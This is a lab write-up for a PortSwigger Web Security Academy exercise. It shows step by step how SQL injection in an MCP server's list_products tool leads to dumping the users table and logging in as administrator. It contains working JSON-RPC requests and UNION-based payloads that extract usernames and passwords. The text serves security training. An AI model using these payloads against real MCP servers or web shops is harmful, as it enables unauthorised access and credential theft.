





# SQL Injection in an MCP Server Tool

**Lab:** [PortSwigger Web Security Academy — SQL injection in an MCP server tool](https://portswigger.net/web-security/mcp/lab-sql-injection-in-an-mcp-tool)
**Difficulty:** Apprentice
**Category:** MCP Server Vulnerabilities



## Summary

This lab exposes a Model Context Protocol (MCP) server at `/mcp`, intended for AI assistants to browse a shop's product catalog. One of the server's tools passes a user-controlled argument into a SQL query without sanitizing it. The goal is to exploit this to retrieve the administrator's password and log in as the administrator.

The key idea behind this lab: an MCP server is just a web API. It accepts JSON-RPC 2.0 requests over HTTP, and nothing requires those requests to come from an actual AI assistant. Every tool argument can be sent directly, with any value an attacker chooses — including SQL injection payloads.

## Step 1 — Confirming the MCP server exists

The lab description states the server is exposed at `/mcp`, so no discovery was needed here. In a real-world scenario, this endpoint would need to be found by checking for common paths like `/mcp` or `/sse`, documentation pages describing how to connect an AI assistant, or metadata files such as `/.well-known/oauth-protected-resource`.

Sent an `initialize` request using Burp Repeater:

```json
{"jsonrpc":"2.0","id":1,"method":"initialize","params":{"protocolVersion":"2025-06-18","capabilities":{},"clientInfo":{"name":"repeater","version":"1.0"}}}
```

The server responded with `200 OK` and confirmed itself as `shop-mcp`:

```json
{"jsonrpc":"2.0","id":1,"result":{"protocolVersion":"2025-06-18","capabilities":{"tools":{"listChanged":false}},"serverInfo":{"name":"shop-mcp","version":"1.0.0"}}}
```

No `Mcp-Session-Id` header was returned, meaning this server doesn't require a session identifier on subsequent requests.



## Step 2 — Enumerating available tools

Called `tools/list` to see what the server exposes:

```json
{"jsonrpc":"2.0","id":2,"method":"tools/list"}
```

The server returned two tools:

- **`list_products`** — optional `category` argument (`string`)
- **`get_product`** — required `productId` argument (`string`)



## Step 3 — Testing `get_product` (dead end)

Sent a baseline request to see normal behavior:

```json
{"jsonrpc":"2.0","id":3,"method":"tools/call","params":{"name":"get_product","arguments":{"productId":"1"}}}
```

This returned the expected product details.



Next, tested with a single quote appended to the ID:

```json
{"jsonrpc":"2.0","id":4,"method":"tools/call","params":{"name":"get_product","arguments":{"productId":"1'"}}}
```

The server responded with:

```json
{"jsonrpc":"2.0","id":3,"error":{"code":-32603,"message":"For input string: \"1'\""}}
```

This is a Java `NumberFormatException`, not a SQL error. It indicates that `productId` is cast to an integer *before* being used in the query — the quote never reaches the SQL layer. This path is not exploitable as-is, so the investigation moved to the other tool's argument.



## Step 4 — Testing `list_products` (the real injection point)

Unlike `productId`, the `category` argument has no reason to be numeric, making it a more promising candidate. A baseline request confirmed normal behavior:

```json
{"jsonrpc":"2.0","id":5,"method":"tools/call","params":{"name":"list_products","arguments":{"category":"Food & Drink"}}}
```

This returned the expected list of products in that category.


Appending a single quote to the category value:

```json
{"jsonrpc":"2.0","id":6,"method":"tools/call","params":{"name":"list_products","arguments":{"category":"Food & Drink'"}}}
```

...returned a database-level error (`Failed to list products`), with `isError` set to `true` in the response — confirming unsanitized input reaches the SQL query.


## Step 5 — UNION-based extraction

With the injection point confirmed, a UNION attack was used to determine the number of columns in the underlying query. The payload below was crafted to replace the entire original filter and append a UNION SELECT:

```sql
' union select Null--
```

This returned an error, indicating the query expects more than one column. Adding a second `Null` succeeded (`isError: false`), confirming the query returns two columns, both of which accept string data.

From there, standard SQL injection enumeration techniques were used to extract the database schema — identifying a `users` table containing `username` and `password` columns.

The final payload concatenated both columns into a single field (since the output only displayed two columns total), separated by a distinctive delimiter:

```sql
' union select username ||'~~'|| password, Null from users--
```

This returned every row of the `users` table, with each username and password pair concatenated together.


## Step 6 — Logging in as administrator

Using the extracted credentials, logged in as the `administrator` user, solving the lab.


## Key takeaways

- An MCP server is a regular web API underneath. The protocol layer (`initialize`, `tools/list`, `tools/call`) is standardized and doesn't need to be guessed — but tool arguments are exactly as trustworthy as any other user input.
- A failed injection attempt isn't necessarily a dead end for the whole server — it can indicate where sanitization *does* exist (type-casting on `productId`), which helps focus testing on where it doesn't (`category`).
- MCP tools often call the same backend logic as the website itself, so classic web vulnerabilities (SQLi, path traversal, SSRF) transfer directly — sometimes to code paths the website's own UI never exercises.
